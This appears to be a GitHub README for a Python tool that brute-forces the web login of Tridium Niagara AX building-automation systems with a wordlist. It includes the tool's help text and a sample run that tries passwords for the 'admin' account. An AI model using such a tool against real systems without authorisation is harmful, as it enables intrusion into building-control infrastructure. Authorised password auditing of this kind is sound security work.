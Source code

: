# Tridium Niagara Password Cracker
By VenomInfoSec


## Purpose
An online password cracker that brute forces passwords for the Tridium Niagara platform.
* Hydra didn't work with the target due to multiple redirects, custom encoding scheme, and CSRF tokens.
* Currently only supports HTTP but the testCreds() method can be modified to support HTTPS since it just uses the requests module

## Help
```
C:\>python NiagaraPswd.py -h
usage: NiagaraPswd.py [-h] -l LIST -u USERNAME -f FAILURE [-r] target

Brute force Tridium Niagara AX Web Login

positional arguments:
  target                The IP or root URL of the Tridium Niagara AX Webpage

optional arguments:
  -h, --help            show this help message and exit
  -l LIST, --list LIST  The path of the wordlist to be used
  -u USERNAME, --username USERNAME
                        The username to try
  -f FAILURE, --failure FAILURE
                        The path of the webpage that illustrates what a failed
                        login attempt is
  -r, --resume          If the last attempt resulted in unexpected program
                        failure, use this option to resume from the last
                        credentail tried
  -s SCHEME, --scheme SCHEME
                        Scheme of base URL, default: http.
```

## Example
```
C:\>python NiagaraPswd.py -l phpbb-rules.txt -u admin -f default.html -s https 127.0.0.1
 [*] Initializing wordlist...

 [-] admin:YeBs2wu992 is incorrect
 [-] admin:avKNwJ2938 is incorrect
 [-] admin:dAGwAKn976 is incorrect
 [-] admin:XeesHfy623 is incorrect
 [-] admin:S8Ydn4l735 is incorrect
 [!] Keyboard Interrupt, saving last tried creds

```

## TODO
- [ ] Add support for threading
